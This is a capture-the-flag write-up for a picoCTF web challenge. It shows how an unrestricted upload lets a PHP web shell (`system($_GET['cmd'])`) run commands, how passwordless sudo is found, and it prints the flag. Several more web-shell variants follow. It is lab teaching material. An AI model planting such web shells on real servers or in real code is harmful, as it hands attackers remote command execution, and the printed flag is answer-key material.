










No here the no sanity means that we can upload whatever file we like - it can be a .sh file , .php file etc.



Also the server is running PHP , so if we can manage to upload a script file which when uploaded is given a location on the server.
And when we try to access the location we have to tell the php server that this is not a normal text file so that the underlying linux server executes the code.

Create a `test.php` file and then  write the code .\

```php
<?php ?>
```
 this tells the server that this is not a normal text file and to execute the php code that is in there 

```php
<?php system() ?>
```

`system()` is a built in php function that takes the string passed directly to the underlying linux terminal 

```php 
<?php system($_GET['cmd']); ?>
```

`$_GET['cmd'])` this takes whatever is in the url after `?cmd=`



 Now upload the file 


Now we can run the commands 




Now we use `sudo -l` to get the commands that we can use with or without passwords 



```
Matching Defaults entries for www-data on challenge: env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin User www-data may run the following commands on challenge: (ALL) NOPASSWD: ALL
```

So there s no restriction we can use all the commands 

As the question suggests we have the `flag.txt` file in the root folder 


Now read the flag



```
picoCTF{wh47_c4n_u_d0_wPHP_123198f1}
```

### Some Other useful Info 

```php
<?php phpinfo(); ?>
```
to see which functions are restricted.



```php
exec($_GET['cmd'], $output); print_r($output);
```

Similar commands to the `system()` command  we have 

```php 
<?php exec($_GET['cmd'], $output); print_r($output); ?>
```

```php 
<?php echo `$_GET['cmd']`; ?>
```

